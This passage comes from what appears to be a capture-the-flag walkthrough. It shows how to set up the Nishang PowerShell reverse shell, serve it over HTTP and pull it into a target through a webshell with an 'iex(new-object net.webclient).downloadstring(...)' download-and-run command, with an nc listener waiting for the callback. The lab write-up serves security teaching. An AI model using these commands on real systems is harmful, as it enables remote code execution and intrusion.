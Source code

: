 [Nishang](https://github.com/samratashok/nishang) is a framework of
scripts and payloads that enables using PowerShell for offensive
security. I'll show the reverse shell, but there is a ton more stuff in
here.

I'll clone it to my local system:



    root@kali:/opt# git clone https://github.com/samratashok/nishang.git
    Cloning into 'nishang'...
    remote: Enumerating objects: 1660, done.
    remote: Total 1660 (delta 0), reused 0 (delta 0), pack-reused 1660
    Receiving objects: 100% (1660/1660), 6.62 MiB | 23.70 MiB/s, done.
    Resolving deltas: 100% (1040/1040), done.



Next I'll grab a copy of `InvokePowerShellTcp.ps1` from
`/opt/nishang/Shells/`. I'll place it in my smb directory (even though
I'm going to use http to get it). I'll go to that directory, and open it
in a text editor. I'll find the example invocation for the reverse
shell:



    .PARAMETER Port
    The port to connect to when using the -Reverse switch. When using -Bind it is the port on which this script listens.

    .EXAMPLE
    PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444



I'll copy that line, and go to the bottom of the file, and paste it in,
and modify it to match my IP/port:



    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443



This will make it so that not only does the module load, but then the
shell is called to give me a callback.

Finally, inside that directory I'll start my webserver using `python`,
with `python3 -m http.server 80`, and start my listener with
`nc -lnvp 443`.

Now I'm ready to get a shell. In my webshell, I'll enter the following:



    powershell iex(new-object net.webclient).downloadstring('http://10.10.14.14/Invoke-PowerShellTcp.ps1')



This will create a webclient object, and use the download string method
to get the text that is returned from the given url. That text is passed
into `iex`, which runs it.
